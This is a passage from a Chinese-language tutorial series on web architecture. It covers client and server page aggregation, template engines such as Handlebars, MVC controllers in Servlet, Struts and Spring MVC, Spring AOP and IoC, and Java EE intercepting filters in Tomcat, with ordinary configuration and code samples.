比如说，对于模板和静态资源（如脚本、样式、图片等），可以利用 CDN（Content Delivery Network，内容分发网络）技术，从网络中距离最近的节点获取，以达到快速展示页面的目的；而动态的数据则可以从中心节点异步获取，速度会慢一点，但保证了数据的一致性。数据抵达浏览器以后，再完成聚合，静态和动态的资源可以根据实际情况分别做服务端和客户端的优化，比如浏览器适配、缓存等等。如下图：


你看上面这个例子，浏览器在上海，模板和静态资源从本地的上海节点获取，而数据异步从北京的中心节点获取。这种方式下，静态资源的访问是比较快的，而为了保证一致性，数据是从北京的中心节点获取的，这个速度会慢一些。在模板抵达浏览器以后，先展示一个等待的效果，并等待数据返回。在数据也抵达浏览器以后，则立即通过 JavaScript 进行客户端的聚合，展示聚合后的页面。

如果我们使用服务端聚合，就必须在服务端同时准备好模板和数据，聚合形成最终的页面，再返回给浏览器。整个过程涉及到的处理环节更多，架构更为复杂，而且同样为了保证一致性，数据必须放在北京节点，那么模板也就被迫从北京节点取得，聚合完成之后再返回，这样用户的等待时间会更长，用户也会看到浏览器的进度条迟迟完不成。见下图：


**资源上，客户端聚合将服务器端聚合造成的计算压力，分散到了客户端。**可是实际上，这不只是计算的资源，还有网络传输的资源等等。比如说，使用服务端聚合，考虑到数据是会变化的，因而聚合之后的报文无法被缓存；而客户端聚合则不然，通常只有数据是无法被缓存，模板是可以被缓存起来的。

但是，**客户端聚合也有它天然的弊端。其中最重要的一条，就是客户端聚合要求客户端具备一定的规范性和运算能力。**这在现在多数的浏览器中都不是问题，但是如果是手机浏览器，这样的问题还是很常见的，由于操作系统和浏览器版本的不同，考虑聚合逻辑的兼容性，客户端聚合通常对终端适配有更高的要求，需要更多的测试。

在实际项目中，我们往往能见到客户端聚合和服务端聚合混合使用。具体来说，Web 页面通常主要使用客户端聚合，而某些低端设备页面，甚至 Wap 页面（常用于较为低端的手机上）则主要使用服务端聚合。下面我们就来学习一些具体的聚合技术。

## 常见的聚合技术

## 1. iFrame 聚合

iFrame 是一种最为原始和简单的聚合方式，也是 CSI（Client Side Includes，客户端包含）的一种典型方式，现在很多门户网站的广告投放，依然在使用。具体实现，只需要在 HTML 页面中嵌入这样的标签即可：

```html
<iframe src="https://..."></iframe>
```

这种方式本质上是给当前页面嵌入了一个子页面，对于浏览器来说，它们是完全独立的两个页面。其优势在于，不需要考虑跨域问题，而且如果这个子页面出了问题，往往也不会影响到父页面的展示。

不过，这种方式的缺点也非常明显，也是因为它们是两个独立的页面。比如子页面和父页面之间的交互和数据传递往往比较困难，再比如预留 iFrame 的位置也是静态的，不方便根据 iFrame 实际的内容和浏览器的窗口情况自适应并动态调整占用位置和大小，再比如对搜索引擎的优化不友好等等。

## 2. 模板引擎

模板引擎是最完备、最强大的解决方案，无论客户端还是服务端，都有许许多多优秀的模板引擎可供选择。比如 Mustache，它不但可以用作客户端，也可以用作服务端的聚合，这是因为它既有 JavaScript 的库，也有后端语言，比如 Java 的库，再比如非常常用的 Underscore.js，性能非常出色。

某些前端框架，为了达到功能或性能上的最优，也会自带一套自己的模板引擎，比如 AngularJS，我在下一章讲前端的时候会介绍。

**在使用模板引擎的时候，需要注意保持 View 层代码职责的清晰和纯粹**，这在全栈项目开发的过程中尤为重要。负责视图，就只做展示的工作，不要放本该属于 Model 层的业务逻辑，也不要干请求转发和流程控制等 Controller 的活。回想上一讲我们学的 JSP 模板，就像 JSP Model 1 一样，功能多未必代表着模板引擎的优秀，有时候反而是留下了一个代码耦合的后门。

## 3. Portlet

Portlet 在早几年的门户应用（Portal）中很常见，它本身是一种 Web 的组件，每个 Portlet 会生成一个标记段，多个 Portlets 生成的标记段可以最终聚集并嵌入到同一个页面上，从而形成一个完整的最终页面。

技术上，Portlet 可以做到远程聚合（服务端），也可以做到本地聚合（客户端），数据来源的业务节点可以部署得非常灵活，因此在企业级应用中也非常常见。

Java 的 Portlet 规范经历了三个版本，详细定义了 Portlet 的生命周期、原理机制、容器等等方方面面。从最终的呈现来看，网站应用 Portlet 给用户的体验就像是在操作本地计算机一样，多个窗口层叠或平铺在桌面，每个窗口都是独立的，自包含的，并且可以任意调整位置，改变布局和大小。

如今 Portlet 因为其实现的复杂性、自身的限制，和较陡峭的学习曲线，往往显得比较笨重，因此应用面并不是很广泛。


## 4. SSI

还记得前面讲过的 CSI，客户端包含吗？与之相对的，自然也有服务端包含——SSI（ Server Side Includes）。它同样是一种非常简单的服务端聚合方式，大多数流行的 Web 服务器都支持 SSI 的语法。

比如下面这样的一条“注释”，从 HTML 的角度来讲，它确实是一条普通的注释，但是对于支持 SSL 的服务器来说，它就是一条特殊的服务器端包含的指令：

```html
<!--#include file="extend.html" -->
```

## 模板引擎的工作机制

还记得 [第 07 讲] 介绍的 JSP 工作原理吗？类似的，模板引擎把渲染的工作分为编译和执行两个环节，并且只需要编译一次，每当数据改变的时候，模板并没有变，因而反复执行就可以了。

只不过这次，**我们在编译后生成的目标代码，不再是 class 文件了，而是一个 JavaScript 的函数。**因此我们可以尽量把工作放到预编译阶段去，生成函数以后，原始的模板就不再使用了，后面每次需要执行和渲染的时候直接调用这个函数传入参数就可以了。

比如这样的 Handlebars 模板，使用一个循环，要在一个表格中列出图书馆所有图书的名字和描述：

```html
<table>
  {{#each books}}
  <tr>
    <td>
      {{this.name}}
    </td>
    <td>
      {{this.desc}}
    </td>
  </tr>
  {{/each}}
</table>
```

接着，模板被加载到变量 templateContent 里面，传递给 Handlebars 来进行编译，编译的结果是一个可执行的函数 func。编译过程完成后，就可以进行执行的过程了，func 接受一个图书列表的入参，输出模板执行后的结果。这两个过程如下：

```javascript
var func = Handlebars.compile(templateContent);
var result = func({
    books : [
        { name : "A", desc : "..." },
        { name : "B", desc : "..." }
    ]
});
```

如果我们想对这个 func 一窥究竟，我们将看到类似这样的代码：

```js
var buffer = "", stack1, functionType="function", escapeExpression=this.escapeExpression, self=this;

function program1(depth0,data) {
  var buffer = "", stack1;
  buffer += "\n  <tr>\n    <td>"
    + escapeExpression(((stack1 = depth0.name),typeof stack1 === functionType ? stack1.apply(depth0) : stack1))
    + "</td>\n    <td>"
    + escapeExpression(((stack1 = depth0.desc),typeof stack1 === functionType ? stack1.apply(depth0) : stack1))
    + "</td>\n  </tr>\n  ";
  return buffer;
}
 
buffer += "\n<table>\n  ";
stack1 = helpers.each.call(depth0, depth0.books, {hash:{},inverse:self.noop,fn:self.program(1, program1, data),data:data});
if(stack1 || stack1 === 0) { buffer += stack1; }
buffer += "\n</table>\n";
return buffer;
```

我们不需要对上面代码的每一处都了解清楚，但是可以看到一个大概的执行步骤，模板被编译后生成了一个字符串拼接的方法，即模板本身的字符串，去拼接实际传出的数据：

- 由于模板中定义了一个循环，因此方法 program1 在循环中被调用若干次

- 对于 td 标签中间的数据，会判断是直接拼接，还是作为方法递归调用，拼接其返回值。

## 总结思考

对于五花八门的页面聚合技术，我们需要抓住其本质，和前面学习 Model 层的解耦一样，应对软件复杂性的问题，绝招别无二致，就是“拆分”。

**无论是分层、分模块，还是分离静态模板和动态数据，当我们定义了不同的拆分方法，我们就把一个复杂的东西分解成组成单一、职责清晰的几个部分，分别处理以后，再聚合起来，不同的聚合方法正是由这些不同的拆分方法所决定的。**

<h1 id="chapter10">10 | MVC架构解析：控制器（Controller）篇</h1>

控制器用于接收请求，校验参数，调用 Model 层获取业务数据，构造和绑定上下文，并转给 View 层去渲染。也就是说，控制器是 MVC 的大脑，它知道接下去该让谁去做什么事。控制器层是大多数 MVC 框架特别愿意做文章的地方，我相信你可能耳闻、了解，甚至熟练使用过一些 MVC 框架了。

那么与其去抽象地学习这一层的重要概念、原理，或是单纯地学习这些框架在这一层略显乏味的具体配置，我想我们今天“不走寻常路”一次，把这两者结合起来——**我们来比较 Servlet、Struts 和 Spring MVC 这三种常见的技术和 MVC 框架，在控制器层的工作路数，以及和业务代码整合配置的方式，看看任这些框架形式千变万化，到底有哪些其实是不变的“套路”呢？**

随着请求到达控制器，让我们顺着接下去的请求处理流程，看看控制器会通过怎样的步骤，履行完它的职责，并最终转到相应的视图吧。

## 1. 路径映射和视图指向

我们不妨把 MVC 架构的控制器想象成一个黑盒。当 HTTP 请求从客户端送达的时候，这个黑盒要完成一系列使命，那么它就有一个入口路由和一个出口路由：

- 入口路由就是路径映射，根据配置的规则，以及请求 URI 的路径，找到具体接收和处理这个请求的控制器逻辑；

- 出口路由就是视图指向，根据配置的规则，以及控制器处理完毕后返回的信息，找到需要渲染的视图页面。

这两件事情，我们当然可以使用原始的 if-else 来完成，但是一般的 MVC 都提供了更清晰和独立的解决方案。

我们还是从老朋友 Servlet 开始讲起，在 Tomcat 的 web.xml 中，我们可以配置这样的路径映射：

```xml
<servlet>
    <servlet-name>BookServlet</servlet-name>
    <servlet-class>com.xxx.xxx.BookServlet</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>BookServlet</servlet-name>
    <url-pattern>/books</url-pattern>
</servlet-mapping>
```

你看，对于路径映射，一旦请求是 /books 这种形式的，就会被转到 BookServlet 里去处理。而对于视图指向，Servlet 是通过代码完成的，比如：

```java
request.getRequestDispatcher("/book.jsp").forward(request, response);
```

但是，Servlet 路径映射的表达式匹配不够灵活，而且配置过于冗长；而视图指向更是完全通过代码调用来完成，视图的位置信息完全耦合在控制器主代码逻辑中，而且也并没有体现出配置的集中、清晰的管理优势。于是现今的 MVC 框架都提供了一套自己的映射匹配逻辑，例如 Struts 2：

```xml
<action name="books" class="xxx.xxx.BookAction">
    <result name="success" type="dispatcher">/success.jsp</result>
    <result name="input" ... />
</action>
```

其中，name=“books” 这样的配置就会将 /books 的请求转给 BookAction。至于接下来的两个 result 标签，是根据控制器返回的视图名来配对具体的视图页面，也就是说，一旦 BookAction 处理完毕，通过返回的视图名字，请求可以被转发给相应的视图。

这个路径映射的配置是简单一些了，可是都需要放在一个其它位置的、单独的 XML 中配置。不过，Java 5 开始支持注解，因此许多 MVC 框架都开始支持使用注解来让这样的配置变得更加轻量，也就是将路径映射和它所属的控制器代码放在一起。见下面 Struts 的例子：

```java
public class BookAction extends ActionSupport {
    @Action(value="/books", results={
        @Result(name="success",location="/book.jsp")
    })
    public String get() {
        ...
        return "success";
    }
}
```

代码依然很好理解，当以 /books 为路径的 GET 请求到来时，会被转给 BookAction 的 get 方法。在控制器的活干完之后，根据返回的名称 success，下一步请求就会转到视图 /book.jsp 中去。

你看，对于路径映射和视图指向，为了不把这样的信息和主流程代码耦合在一起，上面讲了两种实现方法，它们各有优劣：

- 放到配置文件中，好处是所有的映射都在一个文件里，方便管理。但是对于任何一个控制器逻辑，要寻找它对应的配置信息，需要去别的位置（即上文的 XML 中）寻找。**这是一种代码横向分层解耦的方式，即分层方式和业务模块无关，或者说二者是“正交”的**，这种方式我在 [第 11 讲] 讲解 IoC（控制反转）时会继续介绍。

- 使用注解，和控制器逻辑放在一起，好处是映射本身是和具体的控制器逻辑放在一起，当然，它们并非代码层面的耦合，而是通过注解的方式分离开。坏处是，如果需要考察所有的映射配置，那么就没有一个统一的文件可供概览。**这是一种代码纵向分层解耦的方式，也就是说，配置是跟着业务模块走的。**

无论使用以上哪一种方法，本质上都逃不过需要显式配置的命运。但无论哪种方法，其实都已经够简单了，可历史总是惊人的相似，总有帮“难伺候”的程序员，还是嫌麻烦！于是就有人想出了一个“终极偷懒”的办法——免掉配置。

这就需要利用 **CoC 原则（Convention over Configuration，即规约优于配置）**。比如，在使用 Spring MVC 这个 MVC 框架时，声明了 ControllerClassNameHandlerMapping 以后，对于这样没有配置任何映射信息的方法，会根据 Controller 类名的规约来完成映射：

```java
public class BooksController extends AbstractController {
    @Override
    protected ModelAndView handleRequestInternal() throws Exception {
        ...
    }
}
```

在使用 /books 去访问的时候，请求就会被自动转交给定义好的控制器逻辑。

你看，规约优于配置看起来可以省掉很多工作对不对？没错！但是任何技术都有两面性，**CoC 虽然省掉了一部分实际的配置工作，却没有改变映射匹配的流程本身，也不能省掉任何为了理解规约背后的“隐性知识”的学习成本。**而且，规约往往只方便于解决最常见的配置，也就意味着，**当需要更灵活的配置时，我们还是会被迫退化回显式配置。**

## 2. 请求参数绑定

请求被送到了指定的控制器方法，接下去，需要从 HTTP 请求中把参数取出来，绑定到控制器这一层，以便使用。**整个控制器的流程中，有两次重要的数据绑定，这是第一次，是为了控制器而绑定请求数据**，后面在视图上下文构造这一步中还有一次绑定，那是为了视图而进行的。

和路径映射的配置一样，最先被考虑的方式，一定是用编程的方法实现的。比如在 Servlet 中，可以这样做：

```java
request.getParameter("name")
```

这并没有什么稀奇的对不对，想想我们前面学习的处理方法，参数应该能通过某种配置方式自动注入到控制器的对象属性或者方法参数中吧？一点都没错，并且，Struts 和 Spring MVC 各有各的做法，二者加起来，就恰巧印证了这句话。

还记得前面 Struts 的那个例子吗？给 BookAction 设置一个和参数同名的属性，并辅以规则的 get/set 方法，就能将请求中的参数自动注入。更强大的地方在于，如果这个属性是个复杂对象，只要参数按照规约命名了，那么它也能够被正确处理：

```java
public class BookAction extends ActionSupport {
    private Page page;
    public void setPage { ... }
    public Page getPage { ... }
}
```

在这种设定下，如果 URI 是：

```
/books?page.pageSize=1&page.pageNo=2&page.orderBy=desc
```

那么，pageSize、pageNo 和 orderBy 这三个值就会被设置到一个 Page 对象中，而这个 Page 对象则会被自动注入到 BookAction 的实例中去。

再来看看 Spring MVC 使用注解的方式来处理，和 URL 的结构放在一起观察，这种方式显然更为形象直观：

```java
@RequestMapping("/{category}/books")
public ModelAndView get(@PathVariable("category") String category, @RequestParam("author") String author){ ... }
```

在这种配置下，如果 URI 是：

```
/comic/books?author=Jim
```

那么，分类 comic 就会作为方法参数 category 的值传入，而作者 Jim 就会作为方法参数 author 的值传入。

## 3. 参数验证

参数验证的操作因为和请求对象密切相关，因此通常都是在控制器层完成的。在参数验证没有通过的情况下，往往会执行异常流程，转到错误页面，返回失败请求。Struts 提供了一个将参数验证解耦到配置文件的办法，请看下面的例子：

```xml
<validators>
  <field name="name">
    <field-validator type="requiredstring">
      <param name="trim">true</param>
      <message>书名不得为空</message>
    </field-validator>
    <field-validator type="stringlength">
      <param name="maxLength">100</param>
      <param name="minLength">1</param>
      <message>书名的长度必须在 1~100 之间</message>
    </field-validator>
  </field>
</validators>
```

这就是一个非常简单的参数验证的规则，对于属性 name 定义了两条规则，一条是不得为空，另一条是长度必须在 1~100 之间，否则将返回错误信息。

类似的，Struts 也提供了基于注解的参数验证方式，上面的例子，如果使用注解来实现，就需要将注解加在自动注入参数的 set 方法处。代码见下：

```java
@RequiredFieldValidator(trim = true, message = "书名不得为空.")
@StringLengthFieldValidator(minLength = "1", maxLength = "100", message = "书名的长度必须在 1~100 之间")
void setName(String name) { ... }
```

## 4. 视图上下文绑定

在控制器中，我们经常需要将数据传入视图层，它可能会携带用户传入的参数，也可能会携带在控制器中查询模型得到的数据，而这个传入方式，就是**将数据绑定到视图的上下文中。这就是我刚刚提到过的控制器层两大绑定中的第二个。**

如果是使用 Servlet，那么我们一般可以用 setAttribute 的方法将参数设置到 request 对象中，这样在视图层就可以相应地使用 getAttribute 方法把该参数的值取出来。

```java
request.setAttribute("page", xxx);
```

对于 Struts 来说，它的方法和前面说的请求参数绑定统一了，即可以将想传递的值放到 Action 的对象属性中，这种方式绑定的属性，和请求参数自动绑定的属性没有什么区别，在视图层都可以直接从上下文中取出来。

接着前面 BookAction 的例子，绑定了一个 Page 对象，那么在视图层中就可以使用 OGNL（Object-Graph Navigation Language，对象导航图语言）表达式直接取得：

```html
<p>第 ${page.pageNo} 页</p>
```

对于 Spring MVC，则是需要在控制器方法中传入一个类型为 Model 的对象，同时将需要绑定的对象通过调用 addAttribute 来完成绑定，这个过程和 Servlet 是类似的。

## 总结思考

今天我们学习了 MVC 架构中的控制器层，整个控制器的逻辑比较密集，从请求抵达，到转出到视图层去渲染，控制器的逻辑通常包括下面这几步，但是，严格说起来，下面这些步骤的任何一步，根据实际情况，都是可以省略的。


<h1 id="chapter11">11 | 剑走偏锋：面向切面编程</h1>

## “给我一把锤子，满世界都是钉子”

我记得曾经有这样一个相当流行的观点，是说，编程语言只需要学习一门就够了，学那么多也没有用，因为技术是一通百通的，别的编程语言可以说是大同小异。我相信至今抱有这种观点的程序员也不在少数。

可惜，事实远没有那么美好。这个观点主要有两处值得商榷：

- 其一，不同的技术，在一定程度上确实是相通的，可是，技术之间的关联性，远不是“一通百通”这四个简简单单的字能够解释的。妄想仅仅凭借精通一门编程语言，就能够自动打通其它所有编程语言的任督二脉，这是不现实的。

- 其二，通常来说，说编程语言大同小异其实是很不客观的。编程语言经过了长时间的发展演化，如今已经发展出非常多的类型，用作编程语言分类标准之一的编程范型也可谓是百花齐放。

因此我们要学习多种编程语言，特别是那些能带来新的思维模式的编程语言。现在，把这个观点泛化到普遍的软件技术上，也一样适用。我们都知道要“一切从实际出发”，都知道要“具体问题具体分析”，可是，**在眼界还不够开阔的时候，特别是职业生涯的早期，程序员在武器库里的武器还非常有限的时候，依然无法避免“给我一把锤子，满世界都是钉子”，在技术选择的时候眼光相对局限。**

所以我们要学习全栈技术，尤其是要学习这些不一样，但一定层面上和已掌握知识相通的典型技术。今天我们要学习的这项在 MVC 框架中广泛使用的技术，是和面向对象编程一类层面的编程范型，叫做面向切面编程。

互联网有许多功能，如果使用传统的基于单个请求处理流程的方式来编码，代码就会非常繁琐，而使用 AOP 的方式，代码可以得到很大程度上的简化。希望通过今天的学习，你的武器库里，能够多一把重型机枪。

## AOP 的概念

**面向切面编程是一种通过横切关注点（Cross-cutting Concerns）分离来增强代码模块性的方法，它能够在不修改业务主体代码的情况下，对它添加额外的行为。**

不好理解吗？没关系，我们来对它做进一步的说明

首先需要明确的是，AOP 的目标是增强代码模块性，也就是说，本质上它是一种“解耦”的方法，在这方面它和我们之前介绍的分层等方法是类似的，可是，它分离代码的角度与我们传统、自然的模块设计思路截然不同。

我们来看下面这样一个例子，对于图书馆系统来说，有许多业务流程，其中借书和还书是最典型的两条。对于这些业务流程来说，从图书系统接收到请求开始，需要完成若干个步骤，但这些步骤都有一些“共性”，比如鉴权，比如事务控制：


那么，如果我们按照自然的思考方式，我们会把代码按照流程分解成一个一个的步骤，在每个步骤完成的前后添加这些“共性”逻辑。可是这样，这些逻辑就会散落在代码各处了，即便我们把它们按照重复代码抽取的原则，抽出来放到单独的方法中，这样的方法的“调用”还是散落在各处，无论是对软件工程上的可维护性，还是代码阅读时对于业务流程的专注度，都是不利的。

藉由 AOP 则可以有效地解决这些问题，对于图中横向的业务流程，我们能够保持它们独立不变，而把鉴权、事务这样的公共功能，彻底拿出去，放到单独的地方，这样整个业务流程就变得纯粹和干净，没有任何代码残留的痕迹，就好像武林高手彻底隐形了一般，但是，功能却没有任何丢失。就好比面条一般顺下来的业务流程，水平地切了几刀，每一刀，都是一个 AOP 的功能实现。

我们可能在 Java 的世界中谈论 AOP 比较多，但请注意，它并不是 Java 范畴的概念，它不依赖于任何框架，也和编程语言本身无关。

## Spring 中的应用

Spring 作为一个应用程序框架，提供了对于 AOP 功能上完整的支持，下面让我们通过例子来学习。还记得我们在 [第 08 讲] 中举例介绍的将图书借出的方法吗？

```java
public class BookService {
    public Book lendOut(String bookId, String userId, Date date) { ... (0) }
}
```

现在，我们要给很多的业务方法以 AOP 的方式添加功能，而 lendOut 就是其中之一。定义一个 TransactionAspect 类：

```java
public class TransactionAspect {
    public void doBefore(JoinPoint jp) { ... (1) }
    public void doAfter(JoinPoint jp) { ... (2) }
    public void doThrowing(JoinPoint jp, Throwable ex) { ... (3) }
    public void doAround(ProceedingJoinPoint pjp) throws Throwable {
        ... (4)
        pjp.proceed();
        ... (5)
    }
}
```

你看，我给每一处可以实现的代码都用数字做了标记。我们希望在 doBefore 方法中添加事务开始逻辑，doAfter 方法中添加事务结束的提交逻辑，doThrowing 方法中添加事务失败的回滚逻辑，而在 doAround 方法中业务执行前后添加日志打印逻辑，其中的 pjp.proceed() 方法表示对原方法的调用。

接着，我们需要写一些 XML 配置，目的就是把原方法和 AOP 的切面功能连接起来。配置片段如下：

```xml
<bean id="bookService" class="xxx.BookService"></bean>
<bean id="transactionAspect" class="xxx.TransactionAspect"></bean>

<aop:config>
  <aop:pointcut expression="execution(* xxx.BookService.*(..))" id="transactionPointcut"/>
  <aop:aspect ref="transactionAspect">
    <aop:before method="doBefore" pointcut-ref="transactionPointcut"/>
    <aop:after-returning method="doAfter" pointcut-ref="transactionPointcut"/>
    <aop:after-throwing method="doThrowing" pointcut-ref="transactionPointcut" throwing="ex"/>
    <aop:around method="doAround" pointcut-ref="transactionPointcut"/>
  </aop:aspect>
</aop:config>
```

在这段配置中，前两行分别是对 BookService 和 TransactionAspect 这两个 Bean 的声明，接下来在 aop:config 中，我们定义了 pointcut 的切面匹配表达式，表示要捕获 BookService 的所有方法，并在 aop:aspect 标签内定义了我们希望实施的 AOP 功能。

在实际执行的过程中，如果没有异常抛出，上述这些逻辑的执行顺序将是：

```
(1) → (4) → (0) → (5) → (2)
```

## 实现原理

讲了 AOP 怎样配置，怎么表现，现在我要来讲讲它的实现原理了。通过这部分内容，希望你可以搞清楚，为什么不需要对代码做任何改动，就可以在业务逻辑的流水中切一刀，插入我们想要执行的其它逻辑呢？

对于常见的实现，我们根据其作用的不同时间阶段进行分类，有这样两种：

**编译期间的静态织入，又称为编译时增强**。织入（Weaving），指的是将切面代码和源业务代码链接起来的过程。AspectJ 就是这样一个面向切面的 Java 语言扩展，称呼其为语言的“扩展”，就是因为它扩展了 Java 语言的语法，需要特定的编译器来把 AspectJ 的代码编译成 JVM 可识别的 class 文件。

**运行期间的动态代理，又称为运行时增强**。这种方式是在程序运行时，依靠预先创建或运行时创建的代理类来完成切面功能的。比如 JDK 基于接口的动态代理技术，或 CGLib 基于类的代理对象生成技术就属于这一种。

Spring AOP 默认支持的是后者——运行期间的动态代理。至于具体实现，通常来说，我们应该优先考虑使用 JDK 的动态代理技术；但是如果目标类没有实现接口，我们只能退而求其次，使用 CGLib。

动态代理的方式由于在运行时完成代理类或代理对象的创建，需要用到 Java 的拦截、反射和字节码生成等技术，因此运行时的性能表现往往没有静态织入好，功能也有较多限制，但是由于使用起来简便（不需要语言扩展，不需要特殊的编译器等），它的实际应用更为广泛。

## 控制反转 IoC

通过 AOP 我们知道，某些问题如果我们换个角度来解决，会很大程度地简化代码。现在，让我们来了解在 Spring 中另一个经常和面向切面编程一起出现的概念——控制反转。控制反转是一种设计思想，也是通过“换个角度”来解决问题的。

控制反转，IoC，即 Inversion of Control，言下之意，指的是把原有的控制方向掉转过来了。在我们常规的程序流程中，对象是由主程序流程创建的，例如，在业务流程中使用 new 关键字来创建依赖对象。

但是，当我们使用 Spring 框架的时候，**Spring 把对象创建的工作接管过来，它作为对象容器，来负责对象的查找、匹配、创建、装配，依赖管理，等等。而主程序流程，则不用关心对象是怎么来的，只需要使用对象就可以了**。我们还是拿 BookService 举例子：

```java
public class BookService {
    @Autowired
    private BookDao bookDao;
    @Autowired
    private LoanDao loanDao;
    public Book lendOut(String bookId, String userId, Date date) {
        bookDao.update( ... );
        loanDao.insert( ... );
    }
}
```

比如 BookService 的借出方法，假如它的实现中，我们希望：

- 调用数据访问对象 bookDao 的方法来更新被借书的状态；

- 调用借阅行为的访问对象 loanDao 来增加一条借阅记录。

在这种情况下，我们可以通过 @Autowired 注解，让容器将实际的数据访问对象注入进来，主程序流程不用关心“下一层”的数据访问对象到底是怎么创建的，怎么初始化的，甚至是怎么注入进来的，而是直接用就可以了，因为这些对象都已经被 Spring 管理起来了。

如果这些注入的对象之间还存在依赖关系，初始化它们的顺序就至关重要了，可是在这种情况下，Service 层依然不用关心，因为 Spring 已经根据代码或配置中声明的依赖关系自动确定了。总之，Service 层的业务代码，只管调用其下的数据访问层的方法就好了。

读到这里，你可能会回想起前文 AOP 的内容，和 IoC 似乎有一个共同的特点：都是**为了尽可能保证主流程的纯粹和简洁**，而将这些不影响主流程的逻辑拿出去，只不过这两种技术，“拿出去”的是不同的逻辑。值得注意的是，对象之间的依赖关系，各层之间的依赖关系，并没有因为 IoC 而发生任何的改变。

**IoC 在实现上包含两种方式，一种叫做依赖查找（DL，Dependency Lookup），另一种叫做依赖注入（DI，Dependency Injection）**。二者缺一不可，Spring 容器做到了两者，就如同上面的例子，容器需要先查找到 bookDao 和 loanDao 所对应的对象，再把它们注入进来。当然，我们平时听到的更多是第二种。

有了一个大致的感受，那么 IoC 到底能带来什么好处呢？我觉得主要有这样两个方面：

- **资源统一配置管理**。这个方面很好，但并不是 IoC 最大的优势，因为，如果你不把资源交给容器管理，而是自己建立一个资源管理类来管理某项资源，一样可以得到“统一管理”的所有优势。

- **业务代码不再包含依赖资源的访问逻辑，因此资源访问和业务流程的代码解耦开了**。我觉得这里的“解耦”才是 IoC 最核心的优势，它让各层之间的依赖关系变得松散。就如同上面的代码例子一样，如果哪一天我想把它依赖的 bookDao 和 loanDao 替换掉（比如，我想为 Service 层做测试），Service 一行代码都不用改，它压根都不需要知道。

<h1 id="chapter12">12 | 唯有套路得人心：谈谈Java EE的那些模式</h1>

## 背景和概念

我相信很多人都接触过面向对象模式，可是，模式是个通用词，面向对象只是其中的一个分支而已。事实上，我们本章的重点 MVC 本身就是一种典型的模式，介绍过的 CQRS 是模式，学习过的 AOP、IoC，这些其实也都是模式。

因此，和其它领域的技术相比，作为全栈工程师的我们，更有机会接触到各种模式。这些模式可以帮助我们在设计开发工作中拓宽思路，使用精巧的代码结构来解决实际问题。

说到这里，你可能会问，为什么这次谈论模式的时候，要使用 Java EE 这个编程语言前缀？模式不是应该和语言无关吗？

一点都没错，模式就是和语言无关的，但是，诞生模式最多的温床，就是 Java 语言。

世界上没有任何一门语言，像 Java 一样，几乎一直被黑，但是生态圈一直在壮大，且在工业界具备如此统治力。**很多人说，Java 是一门平庸的语言，这可能没错，但是它对于底层细节的封装和语言本身的难度做到了很好的平衡**，它不一定会有多精巧、多出彩，但是新手也可以顺利完成工作，且不容易写出破坏性强、其他人难以接手的代码，这对于要规模、要量产的工业界来说，简直是超级福音。

**使用 Java 的人可以快速上手，也可以把精力专注在高层的架构和设计上面，这就是为什么使用 Java 的人往往对模式特别敏感的原因。**

当然，语言本身的江湖地位也和生态圈密切相关，更先进、更合理的语言一直在出现，但要把整个语言推翻另起炉灶，其难度可想而知，毕竟一门语言还涉及到社区、厂商、开源库、标准等等。

在互联网的战场上，我们一直能看到类似的例子，比如在前端领域 JavaScript 就是一个相对“草率”，有着诸多缺陷的语言，在它之后有许多更先进的语言尝试把它替代（比如 Google 强推的 Dart），但是这件事情是极其困难的。

那么，什么是 Java EE，为什么是 Java EE？

Java EE，全称为 Java Platform Enterprise Edition，即 Java 平台企业版，是 Java 的三大平台之一，另两大是 Java SE（标准版）和 Java ME（微型版）。企业市场对软件的需求和大众市场是完全不同的，尤其是在互联网的早些时候，对吞吐量、数据规模和服务质量等都有着更高级别的要求，而且企业花钱多，因而带来的回报也高得多。

但如今这个特点已经有了变化，但是从当时开始逐步确立下来的企业级规范和技术标准，直到现在还在广泛使用，并不断发展。它使得 Java EE 平台孕育了比其它语言和平台更多的软件架构和设计思想，而这些优秀的思想，以及通用的“套路”，在这个过程中不断被程序员总结成“模式”。

## 概览

Java EE 的模式涉及的面非常广泛，下图是来自经典的 Core J2EE Patterns: Best Practices and Design Strategies 一书，对我们从宏观上理解 Java EE 模式有一定的指导意义。但是请不要以为这就是一个完整的 Java EE 的模式列表，它只是列出了在当时比较常见的那一些而已。


从图中我们可以看到，这些“核心模式”大致分为呈现层（Presentation Tier，绿色部分）、业务层（Business Tier，紫色部分）和集成层（Integration Tier，红色部分）三大部分，模式之间有的通过实线箭头连接，表示着不同模式之间的单向关联关系，有的通过虚线箭头连接，表示着模式之间“使用包含”的依赖关系。

这里面的内容其实有很多在本章已经涉及到了，比如 Front Controller 和 Business Object，但是，我还想补充和细化其中的两个模式，它们在网站开发的项目中非常常用：Intercepting Filter 和 Data Access Object。

## 拦截过滤器

拦截过滤器（Intercepting Filter）正如图中的“Apply zero or more”和 Servlet 规范所述一样，应当具备一个链式结构。这个链式结构中的每个过滤器，互相之间应当是一个互不依赖的松耦合关系，以便于组合容易。这个过滤器链条，出现的位置通常在控制器 Front Controller 之前，在还没有进行到 Servlet 的 URL 映射前，请求需要先通过它的过滤逻辑。

## Tomcat 中配置过滤器

还记得我们在 [第 10 讲] 的加餐中使用 Servlet、JSP 和 JavaBean 实现的简单 MVC 系统吗？现在，让我们来动动手，添加一个基于 URL 映射的过滤器。

首先，打开 ${CATALINA_HOME}/webapps/ROOT/WEB-INF/web.xml，在我们原本的 BookServlet 配置前，添加如下内容：

```xml
<filter>
  <filter-name>AuthFilter</filter-name>
  <filter-class>AuthFilter</filter-class>
</filter>
<filter-mapping>
  <filter-name>AuthFilter</filter-name>
  <url-pattern>/*</url-pattern>
</filter-mapping>

<filter>
  <filter-name>BookFilter</filter-name>
  <filter-class>BookFilter</filter-class>
</filter>
<filter-mapping>
  <filter-name>BookFilter</filter-name>
  <url-pattern>/books/*</url-pattern>
</filter-mapping>
```

你看，为了显示过滤器链的效果，我们配置了两个过滤器，第一个 AuthFilter 用来对所有的请求实施权限控制，因此 URL 使用 /* 匹配所有请求；第二个 BookFilter 我们希望它只对访问图书的请求实施权限控制。

现在建立 AuthFilter，创建 ${CATALINA_HOME}/webapps/ROOT/WEB-INF/classes/AuthFilter.java，写入：

```java
import javax.servlet.*;
import java.util.logging.Logger;
import java.io.IOException;

public class AuthFilter implements Filter {
    private Logger logger = Logger.getLogger(AuthFilter.class.getName());
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        logger.info("Check permission...");
        chain.doFilter(request, response);
    }
}
```

这个用于鉴权的过滤器，现在只打印日志，未来我们可以加入真正的鉴权逻辑。

